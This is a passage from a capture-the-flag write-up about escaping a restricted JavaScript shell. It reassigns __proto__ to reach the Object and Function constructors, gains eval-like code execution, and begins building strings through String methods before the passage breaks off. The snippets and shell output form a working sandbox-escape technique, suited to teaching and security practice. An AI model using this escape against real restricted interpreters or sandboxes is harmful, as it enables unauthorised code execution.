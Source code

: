 We have several syntactic restrictions:

* No commas. Functions can only have one argument.
* No point or square brackets. We can't access properties from other objets.
* No string literals, arrays, regexps, objects, booleans or floats. The only literals available are positive integers.

And we also know that the output is returned by assignating the property `result`. Below there are some examples:

<img alt="Shell errors" width="50%" src="https://raw.githubusercontent.com/ka0labs/ctf-writeups/master/2016/nn6ed/imgs/mongojojo-4.png">

Since we had the source code, it was much easier to test in local without all the network overhead (and you also could debug). The challenge may seem frustrating at the begining, we have very few things to do, but at some point we realize that we can redefine the prototype of our object. For instance:

```javascript
var obj = {};
obj.__proto__ = obj.constructor; // Object
```

With this assignment, we are setting all the properties of `Object` (which is our `constructor`) in our prototype, what means that now they are in our scope and we are able to access them.

```
MojoJojo's s3cret sh3ll!
MoJS> __proto__=constructor; result=keys;
"function keys() { [native code] }"
MoJS>
```

In fact, we can repeat this process in order to access the `constructor` of our `constructor`, and, meanwhile, save some interesting references into our object:

```
MoJS> __proto__=constructor; foo=keys; result=constructor;
"function Function() { [native code] }"
MoJS> result=foo;
"function keys() { [native code] }"
MoJS>
```

`Function` is basically an equivalent to `eval`. Hence, if we are able to construct an arbitrary string we will have code execution :D Unfortunately this is also the trickiest part of the challenge.  There were many solutions, our expected one was to mutate our object into an string, and access the `fromCharCode` method to generate characters from numbers. Luckily, Javascript's `+` operator is also used for concatenation :)

```javascript
var obj = {};
obj.__proto__ = Object(""); // string literal
obj.__proto__ = obj.constructor; // String
```

Passing a string into the `Object` constructor will return a string object, which has `String` as constructor. In order to generate this first string we can try to use some property in scope which was a string (like `name` in any function), or we can concatenate a function with a number (yep, js rulez):
